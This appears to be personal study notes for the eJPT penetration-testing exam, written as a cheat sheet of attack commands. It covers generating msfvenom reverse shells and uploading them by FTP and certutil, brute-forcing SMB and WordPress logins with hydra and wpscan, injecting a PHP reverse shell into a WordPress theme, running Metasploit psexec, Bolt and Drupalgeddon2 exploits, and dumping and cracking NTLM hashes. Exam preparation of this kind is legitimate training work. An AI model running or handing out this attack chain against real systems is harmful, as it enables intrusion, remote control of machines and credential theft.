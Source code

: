 
### Network Recon

nmap -sn <range> -> ping scan

*Store ips in a text file*

nmap -p- -T5 -iL <file> -vv > <file> -> paranoid scan, all ports, very verbose from a text file

nmap -p- -T5 host -vv -Pn -> dont use ping scan


### FTP

*try ftp anonymous always*

msfvenon -p windows/shell_reverse_tcp LHOST=ip LPORT=4444 -f asp > shell.asp -> reverse shell for windows

put shell.asp -> upload reverse shell via ftp to target **CAN WORK OR DONT**

### SMB

smbclient -L "\\\\<ip>\\" -> see SMB shares 

smbclient -L "\\\\<ip>\\<share>" -> connect to smb share

#### Crack SMB

- Store user names in a text file if the user share is accessible
- Use hydra to get a password using a single name or a text file with the users obtained

hydra -l <user_name> -P /usr/share/wordlists/fastrack.txt smb://<ip> -> brute force smb login (fastrack is a very good wordlist for ejpt!)

- Login as User
smbclient -L "\\\\<ip>\\<share>" -U <user_name>


#### Using PSExec (metasploit way)

- Open msfconsole
- Set exploit as psexec
use exploit/windows/smb/psexec
-set rhost to kali machine
-set smbuser <user>
-set smbpass <password>
(Can be tried using bruteforce wordlists)


### Jenkins (port 8000)

*Always try jenkins default creds in the dashboard (admin:admin, jenkins:jenkins, adminstrator:password etc)*

Create a reverse shell (https://github.com/Brzozova/reverse-shell-via-Jenkins)

**Kali machine will have no internet connection! Code needs to be copy pasted from machine to exam machine!**

- Change localhost for to kali's ip
nc -lvnp <port> -> 8044 or other defined in the payload
- run the script console

### Exploit PHP (XAMP webserver port 8080)

Start by running a content scanner like dirb


dirb http://<ip>:<port> /user/share/wordlists/dirb/big.txt -> good wordlist for this

#### Wordpress

Most probably a wordpress will be running on the server, first try to identify useful things like a login page and try default creds.


wpscan --url http//<wp_url>:<port> -e u -> enumerate users

wpscan --url http//<wp_url>:<port> -e ap -t 200 -> enumerate plugins


wpscan --url http//<wp_url>:<port>/<login_page> -U <user> -P /usr/share/wordlists/fasttrack.txt -t 200 -> brute force user login

*Another imporant piece in wordpress is identifying the theme that is running on the website as it can be used as way to get our foot into the system, for example oceanwp is known to be vulnerable to RCE from the dasboard by injecting malicious code in the css theme*

#### Getting reverse shell

Get a php reverse shell (based on the os identified previously with nmap)

For example windows - https://github.com/Dhayalanb/windows-php-reverse-shell

- Start a netcat session: nc -lnvp 9000
- In the case of oceanwp go to the theme editor and inject the shell code.
- Edit the code with the listening port and the kali ip (additionaly store the code in a php file and upload it if copy paste does not work)
- Go to the injected file via url -> http://<url>/wp-content/themes/<theme>/<file>

#### Access the Database

- Use the shell and go to the wp-config.php file and get the database configuration to access it from kali.
- From kali access mysql:
mysql -u root -H <ip> -p -> Access unprotected db, can work or dont, its a gamble.

#### Upload a reverse shell to the system

msfvenom -p windows/shell_reverse_tcp LHOST=<kali_ip> LPORT=443 -f exe > shell.exe

- Create a temp directory on the machine - mkdir temp

python3 -m http.server 80 -> start a webserver on kali to upload the payload

certutil.exe -urlcache -f http://<kali_ip>/shell.exe shell.exe -> upload shell to machine

In kali go back to metasploit multi handler

- msfconsole
- use multi/handler
- set payload windows/shell_reverse_tcp
- set lhost <kali_ip>
- set lport 443
- exploit

Transfer shell to meterpreter

- search shell_to
- use 0 
- sessions -i
- set sessions 1
- run
- sessions -i
- sessions 2
- load kiwi

#### Crack user accounts (local)

lsa_dump_sam -> dump ntlm hashes
*store them in a text file* (<user>:<hash>)

john <file> --wordlist=/usr/share/wordlists/rockyou.txt --fork=4 --format=NT -> crack the hashes (you can also use other wordlists such as fasttrack.txt)


### Web Exploits (80, 8000)

curl -v <host> -> recon web page html

#### CMS (example bolt)

Content manage system is the type of web service that is always in ejpt.

Start by exploring the webpage and try to get the CMS framework used.


Search in metasploit for an exploit (bolt example)

-msfconsole
-search bolt
-use exploit/multi/http/bolt_authenticated_rce
-show options


#### Durpal

Run dirb to get directories

- dirb htt://<target> /usr/share/wordlists/dirb/big.txt

*check the version of durpal in the source code*

Use metasploit 

- use drupal_drupalgeddon2
- exploit

### MYSQL

Try to connect to it via root and passwordless

- mysql -u root -h <target> -p



